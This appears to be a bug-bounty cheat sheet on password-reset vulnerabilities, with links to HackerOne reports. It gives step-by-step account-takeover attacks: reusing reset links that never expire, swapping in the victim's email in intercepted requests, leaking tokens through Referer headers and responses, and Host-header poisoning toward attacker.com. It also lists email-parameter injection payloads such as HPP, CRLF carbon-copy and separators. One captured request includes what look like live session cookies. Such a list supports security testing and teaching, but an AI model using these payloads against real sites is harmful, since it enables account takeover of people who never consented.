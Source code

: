 ### 1.Password reset link not expiring

when a user request changing password then he get a password reset link to reset the password,
that’s the normal behaviour but it also should expire after some period of time.
If it is not expiring and you can use the password reset link multiple times to reset the password.
Then you can consider it as vulnerability.


    First scenario:
    1) Go to https://site.com/users/forgotten_password and Send the password reset link to your email.
    2) Go to your email inbox you see reset token like this https://site.com/users/new_password?reset_token=your-reset-tokenand click the link to change password.
    you can use this link many times to reset password.

    Impact:
    Password Reset Link not expiring after changing password.
[https://hackerone.com/reports/898841](https://hackerone.com/reports/898841)<br></br>



    Second scenario:
    
    1) Go to https://infogram.com/forgot and ask for password reset link.
    2) Don't use the link keep it in Email inbox.
    3) After some time repeat the step 1.
    4) This time use the password reset link which was asked in step 3. means the 2nd link.
    5) After changing the password, use the password reset link that was captured in step 1.
    6) You'll see the password reset link is not expired even after password change.
[https://hackerone.com/reports/283550](https://hackerone.com/reports/283550)<br></br>
    
    
    Third scenario:
    Proof Of Concept:
    1) Send the password reset link to your email.
    2) Don`t open the password link just copy it and paste into any editor.
    3) Open your account.
    4) Go to your account settings.
    5) Under account, you will see Account Overview.
    6) Go to the Email and password Option and change the email and verify it.
    7) After changing the email go to your password reset link which you copied.
    8) Change your password.
    9) BooM password Changed.

    Impact:
    The attacker can still change the password if victim thinks his/her account is compromised and decided to change his/her email.
[https://hackerone.com/reports/685007](https://hackerone.com/reports/685007)<br></br>


    Fourth scenario:
    1) Attacker visits https://card.starbucks.com.sg/forgetPassword.php and enters his account's email
    2) The link is sent to the attacks email's inbox and he clicks on the link while having a proxy monitor the request(burp)
    3) The attacker then modifies the email to put the victim's email in these 2 requests as shown in the image below 1.PNG (F263235) & 2.PNG (F263234)
    4) Upon submitting the request, the password will be changed and the victim's password will be changed to the desired password
    
    Impact:
    This attack does not require the victim to perform any actions and yet the account can be taken over by the attacker and this leaks the victim's personal             information and starbucks card which can be used to purchase items. The attacker can also capture the session id.
[https://hackerone.com/reports/315879](https://hackerone.com/reports/315879)<br></br>


    Fifth scenario:
    Not using the phone number or email of the user corresponding to the session.(take the phone number/email from the request)
        
    1) Web app is sending a verification code to email before changing some sensitive fields.
    2) Intercepted the request in burp and found the email parameter (eg: email: victim@gmail.com) in the POST request.
    3) Changed the email to another gmail (eg: attacker@gmail.com)
    4) Boom! Got the verification code at attacker@gmail.com


### 2.Password reset token leak via referer


    1) Go To https://ucp.nordvpn.com/lost-password Page
    2) Enter Your Email And Click On Reset Password
    3) Go To Email & Click on Password Reset Link
    4) On Password Reset Page Click On Social Media Links Given Below And Capture The Request Using Burp Suite
    5) Check if the referer header is a leaking password reset token?

    GET /nordvpn/ HTTP/1.1
    Host: www.facebook.com
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Referer: https://ucp.nordvpn.com/reset-password/7ac4b7c4654797e8f2a061676314b0959e7de179d33a73dfaa0152b1ec617f46/
    Cookie: fr=1oATYBf0BJ0DXndaC.AWV1Ag1KKbwlzMPBUI8vUz2NaP0.BduttV.ZM.F3B.0.0.BdwUoa.AWWnaTR3; sb=Vdu6XRBcBVULAbruWmZbgfPF; datr=Vdu6Xar5xVM18qIAfGd61Mh3; c_user=100003539320116; xs=4%3AcaHYJilvx4Lkqg%3A2%3A1572948495%3A6163%3A4671
    Upgrade-Insecure-Requests: 1
    
    Impact:
    For Example User A Forgots His Password He Got To Forgot Password Page Reset And Receive Link By Email And Opened The Password Forgot Page 
    Then Eventually User Remembers His Password And Though To Use Some Facebook he Opened Nordvpn facebook page or click on social media page 
    then the link will be leaked in refer header.
    It allows the person who has control of particular site to change the user's password (CSRF attack),
    because this person knows reset password token of the user.
    Other Impact -Account Takeover Possible
    The Person Operating NordVpn Social Media Page Can Also Exploit like if they have enabled page analytics then they may see from where users are referring onto       there page and from there they see that password reset link and can reset the password for victim
[https://hackerone.com/reports/751581](https://hackerone.com/reports/751581)<br></br>


### 3.Password reset token leak via response

    1) send the password reset link request
    2) intercept response
    3) see the reset-password link was returned in response
    
    request:
    POST /access/forgotPassword HTTP/1.1 
    Host: api.xprogram.com
    User-Agent: Mozilla 
    Accept: application/json, text/plain, */* 
    Accept-Language: en-US,en;q=0.5 
    Content-Type: application/json;charset=utf-8 
    Referer: https://app.xprogram.com/account/forgot-password 
    Content-Length: 52 
    origin: https://app.xprogram.com 
    Cookie: redacted=yes;
    Connection: close 
    {“email”:”foobar@gmail.com”}
    
    response:
    HTTP/1.1 200 OK{“name”:”send-email”,”resetPasswordLink”:”https://app.xprogram.com/account/reset-password?token=xxxxxxxxxzzzzzzzzyyyyyyyy" , “many-other-parameters”:”many values”}
[https://medium.com/@yassergersy/account-take-over-via-reset-password-f2e9d887bce1](https://medium.com/@yassergersy/account-take-over-via-reset-password-f2e9d887bce1)<br></br>

### 4.Password reset with manipulating email parameter.Password reset token leak via response

    while requesting a password reset link for the victim user,
    we can try the below parameter manipulation to get a copy of the reset link of the victim on the attacker email.

    Double parameter (aka. HPP / HTTP parameter pollution):
    email=victim@xyz.tld&email=hacker@xyz.tld
    
    Carbon copy:
    email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld
    
    Using separators:
    email=victim@xyz.tld,hacker@xyz.tld
    email=victim@xyz.tld%20hacker@xyz.tld
    email=victim@xyz.tld|hacker@xyz.tld
    
    No domain:
    email=victim
    
    No TLD (Top Level Domain):
    email=victim@xyz
    
    JSON table:
    {“email”:[“victim@xyz.tld”,”hacker@xyz.tld”]}
[https://hackerone.com/reports/1175081](https://hackerone.com/reports/1175081)<br></br>



### 5.Host Header Poisoning

    A common way to implement password reset functionality is to generate a secret token and send an email with a link containing the token. 
    If an attacker is able to change the host header they can then redirect the token to their website or server which can lead to password reset poisoning

    1) intercept the request and change the Host header to attacker.com.
    2) Now check your mail if you have received the password reset link and contains attacker.com in the url.
    If it does then its vulnerable to password reset poisoning

    Changing the host directly to any website doesn’t work most of the time. You can try to bypass this with below methods.


    Add X-Forwarded-Host header :

    Host: attacker.com
    X-Forwarded-Host: target.com
        

    or :

    Host: bing.com
    X-Forwarded-Host: target.com
        
    or :
    Host: target.com
    Host: attacker.com

        You can use ngrok server as your attacker server
[https://shahjerry33.medium.com/otp-bypass-developers-check-5786885d55c6](https://medium.com/@abhishake21/password-reset-poisoning-to-ato-and-otp-bypass-1a3b0eba5491)

[https://hackerone.com/reports/226659](https://hackerone.com/reports/226659)<br></br>


